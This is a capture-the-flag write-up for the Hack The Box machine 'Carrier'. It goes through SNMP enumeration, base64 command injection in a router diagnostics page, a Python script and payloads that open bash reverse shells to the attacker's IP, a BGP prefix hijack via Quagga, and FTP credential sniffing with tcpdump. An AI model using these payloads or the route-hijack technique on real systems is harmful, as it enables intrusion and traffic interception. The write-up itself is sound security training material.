


---
search:
  exclude: true
---
# Carrier Writeup

## Introduction :

Carrier is a Medium linux box released back in September 2018.

## **Part 1 : Initial Enumeration**

As always we begin our Enumeration using **Nmap** to enumerate opened ports. We will be using the flags **-sC** for default scripts and **-sV** to enumerate versions.
    
    
      {Ø} nothing [ 10.10.14.24/23 ] [~]
      → nmap -F 10.10.10.105 --top-ports 10000
      Starting Nmap 7.80 ( https://nmap.org ) at 2020-03-22 10:24 GMT
      Nmap scan report for 10.10.10.105
      Host is up (0.044s latency).
      Not shown: 8317 closed ports
      PORT   STATE    SERVICE
      21/tcp filtered ftp
      22/tcp open     ssh
      80/tcp open     http
    
      Nmap done: 1 IP address (1 host up) scanned in 7.39 seconds
    
      {Ø} nothing [ 10.10.14.24/23 ] [~]
      → nmap -sCV -p21,22,80 10.10.10.105
      Starting Nmap 7.80 ( https://nmap.org ) at 2020-03-22 10:25 GMT
      Nmap scan report for 10.10.10.105
      Host is up (0.044s latency).
    
      PORT   STATE    SERVICE VERSION
      21/tcp filtered ftp
      22/tcp open     ssh     OpenSSH 7.6p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
      | ssh-hostkey:
      |   2048 15:a4:28:77:ee:13:07:06:34:09:86:fd:6f:cc:4c:e2 (RSA)
      |   256 37:be:de:07:0f:10:bb:2b:b5:85:f7:9d:92:5e:83:25 (ECDSA)
      |_  256 89:5a:ee:1c:22:02:d2:13:40:f2:45:2e:70:45:b0:c4 (ED25519)
      80/tcp open     http    Apache httpd 2.4.18 ((Ubuntu))
      | http-cookie-flags:
      |   /:
      |     PHPSESSID:
      |_      httponly flag not set
      |_http-server-header: Apache/2.4.18 (Ubuntu)
      |_http-title: Login
      Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
    
      Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
      Nmap done: 1 IP address (1 host up) scanned in 10.42 seconds
    

## **Part 2 : Getting User Access**

Our nmap scan picked up the tcp ports by default, but the initial foothold of this box isn't a tcp port but instead it is an UDP port, which we'll discover using the appropriate scan:
    
    
      {Ø} nothing [ 10.10.14.24/23 ] [~/_HTB/Carrier]
      → sudo nmap -sU -F --max-retries 0 10.10.10.105 --top-ports 10000 -Pn
      Starting Nmap 7.80 ( https://nmap.org ) at 2020-03-22 10:28 GMT
      Warning: 10.10.10.105 giving up on port because retransmission cap hit (0).
      Nmap scan report for 10.10.10.105
      Host is up (0.047s latency).
      Not shown: 9979 open|filtered ports
      PORT      STATE  SERVICE
      161/udp   open   snmp
      1664/udp  closed netview-aix-4
      10000/udp closed ndmp
      16716/udp closed unknown
      17172/udp closed unknown
      20169/udp closed unknown
      20437/udp closed unknown
      22711/udp closed unknown
      22864/udp closed unknown
      24356/udp closed unknown
      26839/udp closed unknown
      26941/udp closed unknown
      27680/udp closed unknown
      28933/udp closed unknown
      30008/udp closed unknown
      31736/udp closed unknown
      33866/udp closed unknown
      42031/udp closed unknown
      46459/udp closed unknown
      49201/udp closed unknown
      50049/udp closed unknown
    
      Nmap done: 1 IP address (1 host up) scanned in 14.40 seconds
    
      {Ø} nothing [ 10.10.14.24/23 ] [~/_HTB/Carrier]
      → sudo nmap -sUCV -p161 10.10.10.105 -Pn
      Starting Nmap 7.80 ( https://nmap.org ) at 2020-03-22 10:31 GMT
      Nmap scan report for 10.10.10.105
      Host is up (0.041s latency).
    
      PORT    STATE SERVICE VERSION
      161/udp open  snmp    SNMPv1 server; pysnmp SNMPv3 server (public)
      | snmp-info:
      |   enterprise: pysnmp
      |   engineIDFormat: octets
      |   engineIDData: 77656201e70908
      |   snmpEngineBoots: 2
      |_  snmpEngineTime: 1h47m41s
    
      Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
      Nmap done: 1 IP address (1 host up) scanned in 1.33 seconds
    

Now that we know we have a potentially vulnerable SNMPv1 server we can start enumerating port 80 using dirsearch: 
    
    
      {Ø} nothing [ 10.10.14.24/23 ] [~/_HTB/Carrier]
      → dirsearch -u http://10.10.10.105/ -e txt,php,html,js,xml -t 200
      git clone https://github.com/maurosoria/dirsearch.git
      dirsearch -u  -e  -t 50 -x 500
    
       _|. _ _  _  _  _ _|_    v0.3.9
      (_||| _) (/_(_|| (_| )
    
      Extensions: txt, php, html, js, xml | HTTP method: get | Threads: 200 | Wordlist size: 7517
    
      Error Log: /home/nihilist/Desktop/Tools/dirsearch/logs/errors-20-03-22_10-33-10.log
    
      Target: http://10.10.10.105/
    
      [10:33:11] Starting:
      [10:33:12] 403 -  301B  - /.htaccess.save
      [10:33:12] 403 -  301B  - /.htaccess_orig
      [10:33:12] 403 -  302B  - /.htaccess-local
      [10:33:12] 403 -  300B  - /.htaccessOLD2
      [10:33:12] 403 -  299B  - /.htaccess_sc
      [10:33:12] 403 -  300B  - /.htaccess.old
      [10:33:12] 403 -  295B  - /.htgroup
      [10:33:12] 403 -  297B  - /.htpasswds
      [10:33:14] 301 -  309B  - /js  ->  http://10.10.10.105/js/
      [10:33:17] 403 -  299B  - /.htaccessOLD
      [10:33:17] 403 -  297B  - /.htaccess~
      [10:33:17] 403 -  300B  - /.htpasswd-old
      [10:33:17] 403 -  299B  - /.htaccessBAK
      [10:33:18] 403 -  300B  - /.htaccess.txt
      [10:33:18] 403 -  291B  - /.hta
      [10:33:18] 403 -  302B  - /.htaccess-marco
      [10:33:18] 403 -  300B  - /.htaccess.BAK
      [10:33:18] 403 -  301B  - /.htaccess.bak1
      [10:33:18] 403 -  298B  - /.ht_wsr.txt
      [10:33:18] 403 -  303B  - /.htaccess.sample
      [10:33:18] 403 -  301B  - /.htaccess.orig
      [10:33:18] 403 -  300B  - /.htaccess-dev
      [10:33:20] 403 -  301B  - /.htpasswd_test
      [10:33:20] 403 -  295B  - /.htusers
      [10:33:21] 403 -  302B  - /.htaccess_extra
      [10:33:28] 301 -  310B  - /css  ->  http://10.10.10.105/css/
      [10:33:28] 302 -    0B  - /dashboard.php  ->  /index.php
      [10:33:28] 301 -  312B  - /debug  ->  http://10.10.10.105/debug/
      [10:33:29] 200 -   83KB - /debug/
      [10:33:29] 301 -  310B  - /doc  ->  http://10.10.10.105/doc/
      [10:33:29] 200 -    1KB - /doc/
      [10:33:30] 301 -  312B  - /fonts  ->  http://10.10.10.105/fonts/
      [10:33:32] 301 -  310B  - /img  ->  http://10.10.10.105/img/
      [10:33:32] 200 -    1KB - /index.php
      [10:33:32] 200 -    1KB - /index.php/login/
      [10:33:39] 403 -  300B  - /server-status
      [10:33:39] 403 -  301B  - /server-status/
      [10:33:42] 301 -  312B  - /tools  ->  http://10.10.10.105/tools/
    
      Task Completed
    

The interesting directory here is "/debug" which reveals us that the server is using php v7.0.3 on ubuntu 16.04.1, and then "/index.php" which is a Lyghtspeed Login page: 

Here we see that support for IPv6 is enabled so with the combination of snmp running on port 161/udp we are heavily reminded of the previous box [Sneaky](7.md).

Now our dirsearch scan also picked up the /doc directory and when we inspect it we are hinted towards a diagram:

and in doc/error_codes.pdf we are hinted towards the error codes we saw on the Lyghtspeed login page earlier : 

So we know that the password to login as administrator on the platform is the serial number, which is why we need to enumerate our snmp service further and just like on the [ Sneaky](7.md) Box we'll use snmpwalk: 
    
    
      {Ø} nothing [ 10.10.14.24/23 ] [~/_HTB/Carrier]
      → snmpwalk -v1 -c public 10.10.10.105
      iso.3.6.1.2.1.47.1.1.1.1.11 = STRING: "SN#NET_45JDX23"
      End of MIB
    

This right here is our serial number, so we can login using the admin / NET_45JDX23 credentials. 

Now from here we navigate in the Diagnostics tab and we are greeted with an alert message saying that diagnostics are restricted to built-in checks due to an invalid license, so we use burpsuite to interecpt the POST request we make as we click on the "verify status" button:

We intercept the request and send it to the repeater tab (CTRL+R) and go there (CTRL+SHIFT+R):

Looking at the request we are seeing a parameter called "check" whose value is a base64 encoded string which says "quagga" so we send the request to see what the response is:

Which looks like some kind of a code execution, so let's see if we can inject command into this base64 encoded check string:

And we get remote code execution as the root user ! Now let's open up a netcat listener and inject a reverse shell one liner: 

5649c41df59fd6efdc4a78d79a07f2be check=cXVhZ2dhIDsgYmFzaCAtaSA%2bJiAvZGV2L3RjcC8xMC4xMC4xNC4yNC85MDAxIDA%2bJjEK 

And that's it ! we have been able to print out the user flag. 

## **Part 3 : Getting Root Access**

In order to privesc the box we need to pivot as the network diagram we found earlier suggested, but to make sure we keep getting a consistant reverse shell we'll use Hipotermia's awesome python script to get us a reverse shell more easily: 
    
    
      {Ø} nothing [ 10.10.14.24/23 ] [~/_HTB/Carrier]
      → nano user.shell.py
    
    
    
    
      import requests
      import netifaces
      import base64
    
      url = 'http://10.10.10.105/'
      my_ip = netifaces.ifaddresses('tun0')[netifaces.AF_INET][0]['addr']
      payload = 'quagga; bash -i >& /dev/tcp/' + my_ip + '/6969 0>&1'
      b64_payload = base64.b64encode(payload)
    
      s = requests.session()
      s.post(url, data='username=admin&password;=NET_45JDX23', headers={'Content-Type':'application/x-www-form-urlencoded'})
      s.post(url+'/diag.php', data='check='+b64_payload, headers={'Content-Type':'application/x-www-form-urlencoded'})
    
    
    
    
      [0] nothing [ 10.10.14.24/23 ] [~/_HTB/Carrier]
      → pip install netifaces
      Collecting netifaces
        Downloading https://files.pythonhosted.org/packages/7e/02/ad1a92a72620cc17d448fe4dbdfbdf8fe1487ee7bfd82bb48308712c2f3c/netifaces-0.10.9-cp27-cp27mu-manylinux1_x86_64.whl
      Installing collected packages: netifaces
      Successfully installed netifaces-0.10.9
    
      {Ø} nothing [ 10.10.14.24/23 ] [~/_HTB/Carrier]
      → python user.shell.py
    
    
    
    
      {Ø} nothing [ 10.10.14.24/23 ] [~/_HTB/Carrier]
      → nc -lvnp 6969
      Ncat: Version 7.80 ( https://nmap.org/ncat )
      Ncat: Listening on :::6969
      Ncat: Listening on 0.0.0.0:6969
      Ncat: Connection from 10.10.10.105.
      Ncat: Connection from 10.10.10.105:56110.
      bash: cannot set terminal process group (2301): Inappropriate ioctl for device
      bash: no job control in this shell
      root@r1:~# ifconfig
      ifconfig
      eth0      Link encap:Ethernet  HWaddr 00:16:3e:d9:04:ea
                inet addr:10.99.64.2  Bcast:10.99.64.255  Mask:255.255.255.0
                inet6 addr: fe80::216:3eff:fed9:4ea/64 Scope:Link
                UP BROADCAST RUNNING MULTICAST  MTU:1500  Metric:1
                RX packets:223 errors:0 dropped:0 overruns:0 frame:0
                TX packets:154 errors:0 dropped:0 overruns:0 carrier:0
                collisions:0 txqueuelen:1000
                RX bytes:30870 (30.8 KB)  TX bytes:30873 (30.8 KB)
    
      eth1      Link encap:Ethernet  HWaddr 00:16:3e:8a:f2:4f
                inet addr:10.78.10.1  Bcast:10.78.10.255  Mask:255.255.255.0
                inet6 addr: fe80::216:3eff:fe8a:f24f/64 Scope:Link
                UP BROADCAST RUNNING MULTICAST  MTU:1500  Metric:1
                RX packets:839 errors:0 dropped:0 overruns:0 frame:0
                TX packets:864 errors:0 dropped:0 overruns:0 carrier:0
                collisions:0 txqueuelen:1000
                RX bytes:56671 (56.6 KB)  TX bytes:61001 (61.0 KB)
    
      eth2      Link encap:Ethernet  HWaddr 00:16:3e:20:98:df
                inet addr:10.78.11.1  Bcast:10.78.11.255  Mask:255.255.255.0
                inet6 addr: fe80::216:3eff:fe20:98df/64 Scope:Link
                UP BROADCAST RUNNING MULTICAST  MTU:1500  Metric:1
                RX packets:893 errors:0 dropped:0 overruns:0 frame:0
                TX packets:817 errors:0 dropped:0 overruns:0 carrier:0
                collisions:0 txqueuelen:1000
                RX bytes:60453 (60.4 KB)  TX bytes:58606 (58.6 KB)
    
      lo        Link encap:Local Loopback
                inet addr:127.0.0.1  Mask:255.0.0.0
                inet6 addr: ::1/128 Scope:Host
                UP LOOPBACK RUNNING  MTU:65536  Metric:1
                RX packets:192 errors:0 dropped:0 overruns:0 frame:0
                TX packets:192 errors:0 dropped:0 overruns:0 carrier:0
                collisions:0 txqueuelen:1000
                RX bytes:15624 (15.6 KB)  TX bytes:15624 (15.6 KB)
    
    

Here we see quite a few interfaces on the box, now to know which route we need to go to, we have to go back on the Lyghtspeed website to look at a specific ticket :

According to ticket n°6 we have an "important ftp server" in the 10.120.15.0/24 network. Therefore all we need to do is a pingsweep on the ip addresses ranging from 10.120.15.1-254

_Single-threaded hipothermia solution:_
    
    
      for i in {1..254}; do ping -c 1 -W 1 10.120.15.$i >/dev/null && echo "10.120.15.$i is up, thanks hipotermia!";done
    

` _Multi-Threaded solution:_
    
    
      for i in {1..254};do ping -c 1 -W 1 10.120.15.$i >/dev/null && echo "10.120.15.$i is up!" & done | grep up
    
    
    
      root@r1:~# for i in {1..254};do ping -c 1 -W 1 10.120.15.$i >/dev/null && echo "10.120.15.$i is up!" & done | grep up
      <.15.$i >/dev/null && echo "10.120.15.$i is up!" & done | grep up
      10.120.15.1 is up!
      10.120.15.10 is up!
    
      root@r1:~# which nc
      which nc
      /bin/nc
    

So based on the results we see that we have 2 hosts up in this subnet : .1 and .10 Now since we know that netcat is there on this machine, we can scan both the ips for open ports using netcat : 
    
    
      root@r1:~# nc -zv 10.120.15.1 2>&1 | grep succeeded
      nc -zv 10.120.15.1 2>&1 | grep succeeded
    
      nc -zv 10.120.15.10 1-65535 2>&1 | grep succeeded
      Connection to 10.120.15.10 21 port [tcp/ftp] succeeded!
      Connection to 10.120.15.10 22 port [tcp/ssh] succeeded!
      Connection to 10.120.15.10 53 port [tcp/domain] succeeded!
    

We didn't get any result for .1 but for .10 we know that there is a potential port ftp (21) but before we investigate it we take a look into /opt to take a look at the restore.sh bashscript: 
    
    
      root@r1:~# cd /opt
      cd /opt
      root@r1:/opt# ls
      ls
      restore.sh
      root@r1:/opt# cat restore.sh
      cat restore.sh
      #!/bin/sh
      systemctl stop quagga
      killall vtysh
      cp /etc/quagga/zebra.conf.orig /etc/quagga/zebra.conf
      cp /etc/quagga/bgpd.conf.orig /etc/quagga/bgpd.conf
      systemctl start quagga
    

Which is a script apparently used to work with BGP (Border Gateway Control) with quagga, therefore it look slike we have to do some BGP hijacking which is a MITM attack. We will do so using vty to interact with quagga: 
    
    
      root@r1:/opt# vtysh
      vtysh
    
      Hello, this is Quagga (version 0.99.24.1).
      Copyright 1996-2005 Kunihiro Ishiguro, et al.
    
      r1# show ip bgp
      show ip bgp
      BGP table version is 0, local router ID is 10.255.255.1
      Status codes: s suppressed, d damped, h history, * valid, > best, = multipath,
                    i internal, r RIB-failure, S Stale, R Removed
      Origin codes: i - IGP, e - EGP, ? - incomplete
    
         Network          Next Hop            Metric LocPrf Weight Path
      *> 10.78.10.0/24    0.0.0.0                  0         32768 ?
      *> 10.78.11.0/24    0.0.0.0                  0         32768 ?
      *> 10.99.64.0/24    0.0.0.0                  0         32768 ?
      *  10.100.10.0/24   10.78.11.2                             0 300 200 i
      *>                  10.78.10.2               0             0 200 i
      *  10.100.11.0/24   10.78.11.2                             0 300 200 i
      *>                  10.78.10.2               0             0 200 i
      *  10.100.12.0/24   10.78.11.2                             0 300 200 i
      *>                  10.78.10.2               0             0 200 i
      *  10.100.13.0/24   10.78.11.2                             0 300 200 i
      *>                  10.78.10.2               0             0 200 i
      *  10.100.14.0/24   10.78.11.2                             0 300 200 i
      *>                  10.78.10.2               0             0 200 i
      *  10.100.15.0/24   10.78.11.2                             0 300 200 i
      *>                  10.78.10.2               0             0 200 i
      *  10.100.16.0/24   10.78.11.2                             0 300 200 i
      *>                  10.78.10.2               0             0 200 i
      *  10.100.17.0/24   10.78.11.2                             0 300 200 i
      *>                  10.78.10.2               0             0 200 i
      *  10.100.18.0/24   10.78.11.2                             0 300 200 i
      *>                  10.78.10.2               0             0 200 i
      *  10.100.19.0/24   10.78.11.2                             0 300 200 i
      *>                  10.78.10.2               0             0 200 i
      *  10.100.20.0/24   10.78.11.2                             0 300 200 i
      *>                  10.78.10.2               0             0 200 i
      *> 10.101.8.0/21    0.0.0.0                  0         32768 i
      *> 10.101.16.0/21   0.0.0.0                  0         32768 i
      *> 10.120.10.0/24   10.78.11.2               0             0 300 i
      *                   10.78.10.2                             0 200 300 i
      *> 10.120.11.0/24   10.78.11.2               0             0 300 i
      *                   10.78.10.2                             0 200 300 i
      *> 10.120.12.0/24   10.78.11.2               0             0 300 i
      *                   10.78.10.2                             0 200 300 i
      *> 10.120.13.0/24   10.78.11.2               0             0 300 i
      *                   10.78.10.2                             0 200 300 i
      *> 10.120.14.0/24   10.78.11.2               0             0 300 i
      *                   10.78.10.2                             0 200 300 i
      *> 10.120.15.0/24   10.78.11.2               0             0 300 i
      *                   10.78.10.2                             0 200 300 i
      *> 10.120.16.0/24   10.78.11.2               0             0 300 i
      *                   10.78.10.2                             0 200 300 i
      *> 10.120.17.0/24   10.78.11.2               0             0 300 i
      *                   10.78.10.2                             0 200 300 i
      *> 10.120.18.0/24   10.78.11.2               0             0 300 i
      *                   10.78.10.2                             0 200 300 i
      *> 10.120.19.0/24   10.78.11.2               0             0 300 i
      *                   10.78.10.2                             0 200 300 i
      *> 10.120.20.0/24   10.78.11.2               0             0 300 i
      *                   10.78.10.2                             0 200 300 i
    
      Total number of prefixes 27
      r1#
    

Now from there you need to know a bit of router commands, especially the cisco comamnds since the syntax is almost identical, Here we see that the connections to 10.120.15.10 are transmitted through 10.78.11.2 because it is announcing the 10.120.15.0/24 network, so in order to intercept the traffic we will announce a more specific network (10.120.15.0/25) and our machine will be used as a gateway instead of the intended 10.120.15.0/24 one : 
    
    
      r1# conf t
      conf t
      r1(config)# ip route 10.120.15.0/25 10.78.11.2
      ip route 10.120.15.0/25 10.78.11.2
      r1(config)# router bgp 100
      router bgp 100
      r1(config-router)# network 10.120.15.0/25
      network 10.120.15.0/25
      r1(config-router)# end
      end
      r1# show ip bgp
    

Once configured correctly, we check the BGP routes to confirm that our specified network (10.120.15.0/25) has been successfully included, and from there we can assume our neighbors will recieve the information and our machine can then be usd as a gateway. 
    
    
      r1# show ip bgp
      show ip bgp
      BGP table version is 0, local router ID is 10.255.255.1
      Status codes: s suppressed, d damped, h history, * valid, > best, = multipath,
                    i internal, r RIB-failure, S Stale, R Removed
      Origin codes: i - IGP, e - EGP, ? - incomplete
    
         Network          Next Hop            Metric LocPrf Weight Path
      *> 10.78.10.0/24    0.0.0.0                  0         32768 ?
      *> 10.78.11.0/24    0.0.0.0                  0         32768 ?
      *> 10.99.64.0/24    0.0.0.0                  0         32768 ?
      *  10.100.10.0/24   10.78.11.2                             0 300 200 i
      *>                  10.78.10.2               0             0 200 i
      *  10.100.11.0/24   10.78.11.2                             0 300 200 i
      *>                  10.78.10.2               0             0 200 i
      *  10.100.12.0/24   10.78.11.2                             0 300 200 i
      *>                  10.78.10.2               0             0 200 i
      *  10.100.13.0/24   10.78.11.2                             0 300 200 i
      *>                  10.78.10.2               0             0 200 i
      *  10.100.14.0/24   10.78.11.2                             0 300 200 i
      *>                  10.78.10.2               0             0 200 i
      *  10.100.15.0/24   10.78.11.2                             0 300 200 i
      *>                  10.78.10.2               0             0 200 i
      *  10.100.16.0/24   10.78.11.2                             0 300 200 i
      *>                  10.78.10.2               0             0 200 i
      *  10.100.17.0/24   10.78.11.2                             0 300 200 i
      *>                  10.78.10.2               0             0 200 i
      *  10.100.18.0/24   10.78.11.2                             0 300 200 i
      *>                  10.78.10.2               0             0 200 i
      *  10.100.19.0/24   10.78.11.2                             0 300 200 i
      *>                  10.78.10.2               0             0 200 i
      *  10.100.20.0/24   10.78.11.2                             0 300 200 i
      *>                  10.78.10.2               0             0 200 i
      *> 10.101.8.0/21    0.0.0.0                  0         32768 i
      *> 10.101.16.0/21   0.0.0.0                  0         32768 i
      *> 10.120.10.0/24   10.78.11.2               0             0 300 i
      *                   10.78.10.2                             0 200 300 i
      *> 10.120.11.0/24   10.78.11.2               0             0 300 i
      *                   10.78.10.2                             0 200 300 i
      *> 10.120.12.0/24   10.78.11.2               0             0 300 i
      *                   10.78.10.2                             0 200 300 i
      *> 10.120.13.0/24   10.78.11.2               0             0 300 i
      *                   10.78.10.2                             0 200 300 i
      *> 10.120.14.0/24   10.78.11.2               0             0 300 i
      *                   10.78.10.2                             0 200 300 i
      *> 10.120.15.0/24   10.78.11.2               0             0 300 i
      *                   10.78.10.2                             0 200 300 i
      *> 10.120.15.0/25   0.0.0.0                  0         32768 i
    

Here you can see our specified network has been added, so we can run tcpdump to inspect the traffic that is going to the FTP server: 
    
    
      r1# exit
      exit
      root@r1:/opt# tcpdump -i any -w nihilist.pcap -n dst host 10.120.15.10
      tcpdump -i any -w nihilist.pcap -n dst host 10.120.15.10
      tcpdump: listening on any, link-type LINUX_SLL (Linux cooked), capture size 262144 bytes
    

And after waiying a bit, we print out the contents of nihilist.pcap which reveals the credentials we need: 
    
    
    root@r1:~# tcpdump -r /opt/nihilist.pcap
    

root : BGPtelc0rout1ng which we can use to ssh into the host machine as the root user:
    
    
      {Ø} nothing [ 10.10.14.24/23 ] [~/_HTB/Carrier]
      → ssh root@10.10.10.105
      The authenticity of host '10.10.10.105 (10.10.10.105)' can't be established.
      ECDSA key fingerprint is SHA256:ocbg7qpaEpjQc5WGCnavYd2bgyXg7S8if8UaXgT1ztE.
      Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
      Warning: Permanently added '10.10.10.105' (ECDSA) to the list of known hosts.
      root@10.10.10.105's password:
      Welcome to Ubuntu 18.04 LTS (GNU/Linux 4.15.0-24-generic x86_64)
    
       * Documentation:  https://help.ubuntu.com
       * Management:     https://landscape.canonical.com
       * Support:        https://ubuntu.com/advantage
    
        System information as of Sun Mar 22 12:29:09 UTC 2020
    
        System load:  0.0                Users logged in:       0
        Usage of /:   40.8% of 19.56GB   IP address for ens33:  10.10.10.105
        Memory usage: 35%                IP address for lxdbr0: 10.99.64.1
        Swap usage:   0%                 IP address for lxdbr1: 10.120.15.10
        Processes:    233
    
    
       * Canonical Livepatch is available for installation.
         - Reduce system reboots and improve kernel security. Activate at:
           https://ubuntu.com/livepatch
    
      4 packages can be updated.
      0 updates are security updates.
    
    
      Last login: Wed Sep  5 14:32:15 2018
      root@carrier:~# cat /root/root.txt
      28XXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
    

And that's it ! we have been able to print out the root flag. 

## **Conclusion**

Here we can see the progress graph :

